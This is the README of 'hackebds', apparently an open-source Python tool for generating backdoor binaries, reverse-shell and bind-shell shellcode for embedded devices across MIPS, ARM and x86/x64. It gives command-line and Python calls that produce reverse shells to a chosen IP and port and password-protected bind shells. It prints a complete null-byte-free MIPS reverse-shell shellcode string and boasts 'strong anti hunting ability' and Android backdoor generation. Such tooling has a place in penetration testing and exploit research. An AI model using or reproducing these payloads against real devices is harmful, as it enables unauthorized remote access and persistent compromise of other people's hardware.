 # introduction
​:link:​[中文readme](https://github.com/doudoudedi/hackEmbedded/blob/main/readme_cn.md)
## foreword

>In the process of penetration and vulnerability mining of embedded devices, many problems have been encountered. One is that some devices do not have telnetd or ssh services to obtain an interactive shell，Some devices are protected by firewall and cannot be connected to it in the forward direction Reverse_shell is required, and the other is that memory corruption vulnerabilities such as stack overflow are usually Null bytes are truncated, so it is more troublesome to construct reverse_shellcode, so this tool was developed to exploit the vulnerability. This tool is developed based on the PWN module and currently uses the python2 language，**Has been updated to python3**

## fuction

This tool is embedded in the security test of the device. There are two main functions:

1.  Generate **backdoor programs** of various architectures. The backdoor program is packaged in shellless pure shellcode and is smal in size.**Armv5, Armv7, Armv8, mipsel, mips are now supported, and they are still being updated**

2.  Generate **reverse_shell shellcode** of various architectures during the exploit process, and no null bytes, which facilitates the exploitation of memory corruption vulnerabilities on embedded devices. **Armv5, Armv7, Armv8, mipsel, mips are now supported, and they are still being updated**

3.  Fixed some bugs that the reverse_shellcode and reverse_backdoor **ports were selected too big**, and **added the function of generating bindshell with specified ports and passwords under x86 and x64**，**and beautified the generation process****（This feature will be updated to various architectures）**
    Add support armvelv7_bind_shell(2022.10.27)，

4.  Removed the generation sleep time of shellcode, and added mips_ bind_ Shell, reverse of x86 and x64 small end_ shell_ Backdoor, the mips that are expected to be interrupted by mips_ bind_ Shell, which solves the error of password logic processing in the bindshell in mips，Joined aarch64_ bind_ shell

5.  Support command line generation backdoor and shell code, Strong anti hunting ability,characterized by light, small, efficient and fast

6.  The learning function of the device model is added. After establishing the relationship between the model and arch, the target content is generated again. You only need to specify the model

7.  CVE retrieval function is added and CVE retrieval is backed up

8.  Improved x86, x64, armebv5, reverse_ shellcode and reverse_ shell_ file

## install

pip download
```
pip install -U hackebds
```

![image-20221107231221043](https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221107231221043.png)

#### Instructions for use

When importing this module will import the pwn module

Please install the corresponding binutils environment before use
expample:

```
apt search binutils | grep arm（You can replace it here）
apt install binutils-arm-linux-gnueabi/hirsute
```

1. Use the command line to generate the backdoor file name, shellcode, binshell, etc

   ![image-20221102192550052](https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221102192550052.png)

   ```
   hackebds -reverse_ip 127.0.0.1 -reverse_port 8081 -arch armelv7 -res reverse_shellcode -passwd 1231
   ```

   ![image-20221102181217933](https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221102181217933.png)
   ```
   hackebds -reverse_ip 127.0.0.1 -reverse_port 8081 -arch armelv7 -res reverse_shell_file
   ```
   ![image-20221102183017775](https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221102183017775.png)
   
   ```
   hackebds -bind_port 8080 -passwd 1234 -arch mips -model DIR-823 -res bind_shell
   ```
   ![image-20221102182939434](https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221102182939434.png)
   
2. Generate backdoor programs of various architectures, encapsulate pure shellcode, and successfully connect to the shell

```
>>> from hackebds import *
>>> mipsel_backdoor(reverse_ip,reverse_port)
>>> mips_backdoor(reverse_ip,reverse_port)
>>> aarch64_backdoor(reverse_ip,reverse_port)
>>> armelv5_backdoor(reverse_ip,reverse_port)
>>> armelv7_backdoor(reverse_ip,reverse_port)
>>> armebv5_backdoor(reverse_ip,reverse_port)
>>> armebv7_backdoor(reverse_ip,reverse_port)
>>> mips64_backdoor(reverse_ip,reverse_port)
>>> mips64el_backdoor(reverse_ip,reverse_port)
>>> x86el_backdoor(reverse_ip,reverse_port)
>>> x64el_backdoor(reverse_ip, reverse_port)
>>> x86_bind_shell(listen_port, passwd)
>>> x64_bind_shell(listen_port, passwd)
>>> armelv7_bind_shell(listen_port, passwd)
>>> aarch64_ bind_ shell(listen_port, passwd)
>>> mips_bind_shell(listen_port, passwd)
>>> mipsel_bind_shell(listen_port, passwd)
```

（Note that the maximum password length is 4 characters for x86（32bits） and 8 characters for x64（64bits））

```
>>> mipsel_backdoor("127.0.0.1",5566)
[+] reverse_ip is: 127.0.0.1
[+] reverse_port is: 5566
[*] waiting 3s
[+] mipsel_backdoor is ok in current path ./
>>>
```

![image-20221028144512270](https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221028144512270.png)

```
>>> from hackebds import *
>>> x86_bind_shell(4466,"doud")
[+] bind port is set to 4466
[+] passwd is set to 'doud'
0x0000000064756f64
[*] waiting 3s
[+] x86_bind_shell is ok in current path ./
>>>
```

![image-20221028143802937](https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221028143802937.png)

Then connect to the port bound to the device (password exists)

![image-20221028144136069](https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221028144136069.png)

2. Generates the use-back shellcode (no free) null bytes corresponding to various architectures

```
>>> from hackebds import *
>>> mipsel_reverse_sl(reverse_ip,reverse_port)
>>> mips_reverse_sl(reverse_ip,reverse_port)
>>> aarch64_reverse_sl(reverse_ip,reverse_port)
>>> armelv5_reverse_sl(reverse_ip,reverse_port)
>>> armelv7_reverse_sl(reverse_ip,reverse_port)
>>> armebv5_reverse_sl(reverse_ip,reverse_port)
>>> armebv7_backdoor(reverse_ip,reverse_port)
>>> mips64_reverse_sl(reverse_ip,reverse_port)
>>> mips64el_reverse_sl(reverse_ip,reverse_port)
>>> android_aarch64_backdoor(reverse_ip,reverse_port)
```

example:

```
>>> from hackebds import *
>>> shellcode=mipsel_reverse_sl("127.0.0.1",5566)
[+] No NULL byte shellcode for hex(len is 264):
\xfd\xff\x19\x24\x27\x20\x20\x03\xff\xff\x06\x28\x57\x10\x02\x34\xfc\xff\xa4\xaf\xfc\xff\xa5\x8f\x0c\x01\x01\x01\xfc\xff\xa2\xaf\xfc\xff\xb0\x8f\xea\x41\x19\x3c\xfd\xff\x39\x37\x27\x48\x20\x03\xf8\xff\xa9\xaf\xff\xfe\x19\x3c\x80\xff\x39\x37\x27\x48\x20\x03\xfc\xff\xa9\xaf\xf8\xff\xbd\x27\xfc\xff\xb0\xaf\xfc\xff\xa4\x8f\x20\x28\xa0\x03\xef\xff\x19\x24\x27\x30\x20\x03\x4a\x10\x02\x34\x0c\x01\x01\x01\xf7\xff\x85\x20\xdf\x0f\x02\x24\x0c\x01\x01\x01\xfe\xff\x19\x24\x27\x28\x20\x03\xdf\x0f\x02\x24\x0c\x01\x01\x01\xfd\xff\x19\x24\x27\x28\x20\x03\xdf\x0f\x02\x24\x0c\x01\x01\x01\x69\x6e\x09\x3c\x2f\x62\x29\x35\xf8\xff\xa9\xaf\x97\xff\x19\x3c\xd0\x8c\x39\x37\x27\x48\x20\x03\xfc\xff\xa9\xaf\xf8\xff\xbd\x27\x20\x20\xa0\x03\x69\x6e\x09\x3c\x2f\x62\x29\x35\xf4\xff\xa9\xaf\x97\xff\x19\x3c\xd0\x8c\x39\x37\x27\x48\x20\x03\xf8\xff\xa9\xaf\xfc\xff\xa0\xaf\xf4\xff\xbd\x27\xff\xff\x05\x28\xfc\xff\xa5\xaf\xfc\xff\xbd\x23\xfb\xff\x19\x24\x27\x28\x20\x03\x20\x28\xa5\x03\xfc\xff\xa5\xaf\xfc\xff\xbd\x23\x20\x28\xa0\x03\xff\xff\x06\x28\xab\x0f\x02\x34\x0c\x01\x01\x01
```

## chips and architectures

Tests can leverage chips and architectures

Mips:
MIPS 74kc V4.12 big endian
MIPS 24kc V5.0  little endian
Ingenic Xburst V0.0  FPU V0.0  little endian

Armv7:
Allwinner(全志)V3s

Armv8:
Qualcomm Snapdragon 660


## :beer:enjoy hacking


## updating

 2022.4.19 Added support for aarch64 null-byte reverse_shellcode

 2022.4.30 Reduced amount of code using functions and support python3

 2022.5.5 0.0.8 version Solved the bug that mips_reverse_sl and mipsel_reverse_sl were not enabled, added mips64_backdoor, mips64_reverse_sl generation and mips64el_backdoor, mips64el_reverse_sl generation

 2022.5.21 0.0.9 version changed the generation method of armel V5 backdoor and added the specified generation of riscv-v64 backdoor

 2022.6.27 0.1.0 Added Android backdoor generation

 2022.10.26 0.1.5 Fixed some problems and added some automatic generation functions of bindshell specified port passwords

 2022.10.27 0.1.6 Add support armv7el_bind_shell(2022.10.27)

 2022.11.1 Removed the generation sleep time of shellcode, and added mips_ bind_ Shell, reverse of x86 and x64 small end_ shell_ Backdoor, the mips that are expected to be interrupted by mips_ bind_ Shell, which solves the error of password logic processing in the bindshell in mips

 2022.11.2 Joined aarch64_ bind_ shell
 2022.11.2 Support command line generation backdoor and shell code, characterized by light, small, efficient and fast




